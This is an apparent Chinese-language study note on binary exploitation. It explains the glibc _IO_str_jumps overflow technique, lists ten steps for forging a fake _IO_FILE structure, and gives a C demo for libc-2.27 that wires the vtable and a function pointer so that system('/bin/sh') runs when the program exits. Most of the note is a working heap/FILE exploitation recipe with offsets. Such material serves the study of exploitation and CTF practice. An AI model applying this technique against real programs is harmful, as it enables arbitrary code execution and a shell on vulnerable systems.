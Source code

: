 ### _IO_str_jumps -> overflow的利用

__原理:__

将`vtable`设置成`_IO_str_jumps`, 然后利用`_IO_str_overflow` 会调用函数指针 `(char *)(*((_IO_strfile *)fp)->_s._allocate_buffer)(new_size);`

__攻击:__

1. `fake_IO_FILE->_flags = 0`
2. `fake_IO_FILE->_IO_write_ptr = (/bin/sh地址 - 100) / 2 + 1`
3. `fake_IO_FILE->_IO_buf_base = 0`
4. `fake_IO_FILE->_IO_write_base = 0`
5. `fake_IO_FILE->_IO_buf_end = (/bin/sh地址 - 100) / 2`
6. `fake_IO_FILE->_mode = 0`
7. `fake_IO_FILE->vtable = &_IO_str_jumps`
8. `fake_IO_FILE + 0xE0 = &system`
9.  修改 `_IO_FILE->_chain` 或者 `_IO_list_all` 为 `fake_IO_FILE`
10. `exit`时即可触发漏洞

__示例:__

```C
// libc-2.27.so 初代版本
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <demo.h>

char binsh[] = "/bin/sh";

int main()
{
    u64 str_jumps = GET_VALUE(stdin) - (0x3EBA00 - 0x3E8360);

    u64 fake_IO_FILE = MALLOC(0x100);

    SET_ADDR_OFFSET_VALUE(fake_IO_FILE, 0x0, 0);                                 // fake_IO_FILE->_flags = 0
    SET_ADDR_OFFSET_VALUE(fake_IO_FILE, 0x20, 0);                                // fake_IO_FILE->_IO_write_base = 0
    SET_ADDR_OFFSET_VALUE(fake_IO_FILE, 0x28, (GET_VALUE(binsh) - 100) / 2 + 1); // fake_IO_FILE->_IO_write_ptr = (binsh地址 - 100) / 2 + 1
    SET_ADDR_OFFSET_VALUE(fake_IO_FILE, 0x38, 0);                                // fake_IO_FILE->_IO_buf_base = 0
    SET_ADDR_OFFSET_VALUE(fake_IO_FILE, 0x40, (GET_VALUE(binsh) - 100) / 2);     // fake_IO_FILE->_IO_buf_end = (binsh地址 - 100) / 2
    SET_ADDR_OFFSET_VALUE(fake_IO_FILE, 0xC0, 0);                                // fake_IO_FILE->_mode = 0
    SET_ADDR_OFFSET_VALUE(fake_IO_FILE, 0xD8, str_jumps);                        // fake_IO_FILE->vtable = &_IO_str_jumps
    SET_ADDR_OFFSET_VALUE(fake_IO_FILE, 0xE0, &system);                          // fake_IO_FILE + 0xE0 = &system

    SET_ADDR_OFFSET_VALUE(stderr, 0x68, fake_IO_FILE); // 设置stderr->chain为fake_FILE_vtable

    return 0; // 触发漏洞
}
```
